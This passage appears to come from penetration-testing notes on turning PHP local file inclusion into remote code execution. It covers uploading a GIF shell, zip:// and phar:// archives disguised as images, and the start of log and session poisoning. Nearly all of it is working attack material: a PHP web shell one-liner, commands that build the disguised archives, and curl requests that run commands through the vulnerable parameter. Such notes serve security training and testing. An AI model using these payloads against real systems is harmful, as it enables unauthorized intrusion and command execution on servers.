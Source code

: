 		```
	- We can find the file path through the HTML code of the site or through the URL 
		``` HTML
		<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
		```
	- Include the uploaded file in the LFI vulnerable function
		``` bash
		curl "http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id"
		```
- Zip Upload (zlib:// bzip2:// zip:// wrappers to execute PHP code. This wrapper isn't enabled by default) 
	- Craft the malicious ZIP and upload it.
		``` bash
		echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
		```
	- Include the uploaded file in the LFI vulnerable function
		``` bash
		curl "http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id"
		```
- Phar Upload
	- Create `shell.php`
		``` PHP
		<?php
		$phar = new Phar('shell.phar');
		$phar->startBuffering();
		$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
		$phar->setStub('<?php __HALT_COMPILER(); ?>');
		
		$phar->stopBuffering();
		```
	- compile it into a `phar` file and rename it to `shell.jpg` and upload it.
		``` bash
		php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
		```
	- Include the uploaded file in the LFI vulnerable function
		``` bash
		curl "http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id"
		```
### Log Poisoning
Writing PHP code in a field we control that gets logged into a log file, and then include that log file to execute the PHP code.
For this attack to work, We should have read privileges over the logged files and the vulnerable function has execute privileges.
#### PHP Session Poisoning
- Most PHP web apps utilize `PHPSESSID` cookies to save user data on the back-end
	- `/var/lib/php/sessions/sess_<PHPSESSID_cookie_value>`  on Linux
	- `C:\Windows\Temp\sessions\sess_<PHPSESSID_cookie_value>` on Windows
